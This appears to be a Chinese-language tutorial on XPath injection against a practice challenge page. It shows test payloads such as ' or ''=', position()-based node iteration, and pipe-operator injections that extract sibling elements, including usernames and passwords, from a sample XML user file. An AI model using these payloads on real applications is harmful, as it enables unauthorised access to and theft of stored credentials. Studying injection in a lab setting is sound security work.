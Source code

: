 ##XPATH注入：遍历元素和实体

我们将在本教程中讨论以下内容。

1. 测试并确认XPATHi 
2. 遍历节点
3. 从兄弟节点中提取数据

当我们看到一个输入字符时，我们要检查的第一件事是使用下面的payload来测试它：
```
1 or 1=1
1 or true
' or ''='
" or ""="
```
而在XPATH或SQLi等许多其他注入的情况下，它们的工作原理是一样的。所以现在要确认它的XPATHi是否可以使用`position()`函数，这是XPATH特有的。
以下是我们可以尝试的一些测试：
```
1 or postition()=1 or 1=1
1 or postition()=1 or true
' or postition()=1 or ''='
" or postition()=1 or ""="
```
如果上述任何一个payload工作，那么你可以假设你正在处理的注入是XPATH注入。下面是本教程中将要使用的示例XML文件：
```
<xmlfile>
<users>
	<user>
		<name first="Zenodermus" last="Javanicus"/>
		<id>1</id>
		<username>Zen</username>
		<password>n00b_132</password>
		<phone>123-456-7890</phone>
	</user>
	<user>
		<name first="Rahul" last="Maane"/>
		<id>2</id>
		<username>Monster</username>
		<password>i_om-GAWWWD</password>
		<phone>603-478-4115</phone>
	</user>
	<user>
		<name first="Ashx" last="Khan"/>
		<id>3</id>
		<username>Trojan</username>
		<password>ihavemoregfsthanyou</password>
		<phone>222-222-2222</phone>
	</user>
	<user>
		<name first="Rummy" last="Khan"/>
		<id>4</id>
		<username>CyberGh0st</username>
		<password>SelectPassFromDual</password>
		<phone>88-777-8989</phone>
	</user>
</users>
</xmlfile>
```
现在这里有一些基本的XPATH查询可用于从上述文件中提取数据：
```
提取id = 1的用户名
/xmlfile/users/user[id='1']/username
提取id = 2的用户名
/xmlfile/users/user[id='2']/username
提取username=Monster的用户的密码
/xmlfile/users/user[username="Monster"]/password
提取username=Trojan,password=ihavemoregfsthanyou的用户的电话
/xmlfile/users/user[username="Trojan" and password="ihavemoregfsthanyou"]/phone
提取第一个用户名
/xmlfile/users/user[position()=1]/username
```
2.遍历节点

在我们开始注入之前，让我们假设内部查询可能是什么，它应该是

`"/root/semething/user[username="<Our_Intput_here>"]/phone" `

假设是这样我们可以尝试下面的注入：

`/challenge_2.php?username='or''='`

我们得到了第一个用户的数量，现在得到第二个用户的数量，我们将使用position()，就像我之前使用的那样

`/challenge_2.php?username='or position()=2 and''='`

并且我们获得了第二个用户的数量，所以我们可以不断更改position()来获取剩余的用户电话号码。

`/challenge_2.php?username='or position()=3 and''='`

而且我们得到了第三位用户的数量，所以我们可以不断更改position()来获取剩余的用户电话号码。

在这里，我们完成了对节点的迭代，但问题是我们无法提取其他细节，如密码等。应该必须保存在同一个XML文件中。现在来看下一步，我们甚至可以列举我们想要的任何其他细节。

3.从相邻的兄弟姐妹节点提取数据

到目前为止，我们使用的是位置position，所以我们只能通过节点枚举，但是/phone最终是硬编码的，所以我们不能改变它来提取其他数据。但不要担心！我们有一个Pipe运算符，它用于在XPATH中组合两个查询。看我们如何做到这一点：
```
/challenge_2.php?username=' or position()=1]/*[2]|/a['
上面的注入从第一个节点中提取第二个元素。
/challenge_2.php?username=' or position()=1]/*[3]|/a['
上面的注入从第一个节点中提取第三个元素。
/challenge_2.php?username=' or position()=1]/*[4]|/a['
上面的注入从第一个节点中提取Forth元素。
/challenge_2.php?username=' or position()=1]/*[5]|/a['
上面的注入从第一个节点中提取第五个元素。
/challenge_2.php?username=' or position()=2]/*[2]|/a['
在这里我改变了位置，这意味着它会从第二个节点的第二个元素提取数据，所以你可以不断改变和提取。
```
使用这个我们可以提取所有内部文件结构的数据，在这里尝试提取所有用户的用户名和密码。 





